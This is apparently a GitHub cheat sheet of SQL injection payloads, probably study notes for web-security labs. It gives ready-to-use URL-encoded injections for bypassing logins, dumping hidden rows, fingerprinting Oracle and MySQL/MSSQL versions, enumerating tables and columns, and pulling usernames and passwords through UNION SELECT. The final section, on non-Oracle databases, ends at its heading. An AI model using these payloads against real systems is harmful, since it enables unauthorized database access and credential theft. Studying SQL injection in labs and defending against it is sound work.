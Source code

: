 # SQL Injection Payloads

**Retreive Hidden Data**
  - Modify the query parameter value
```SQL
'+OR+1=1--
```
---
**Login bypass**
  - Modify the user or username parameter
```SQL
administrator'--
```
---
**Oracle database type and version information**
  - Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Display the database version information
```SQL
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
---
**MySQL and Microsoft database type and version information**
- Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'#
```
  - Display the database version information
```SQL
'+UNION+SELECT+@@version,+NULL#
```
---
**Listing database contents from other tables on Oracle databases**
  - Determine the number of columns being returned by the query and which columns contain text data
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Retrieve the list of tables in the database
```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
  - Retrive the details of the columns in the table (replace the table name)
```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
  - Retrive the username and passwords of all users (replace the table name and the column name)
```
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
---
**Listing database contents from other tables on non-Oracle databases**
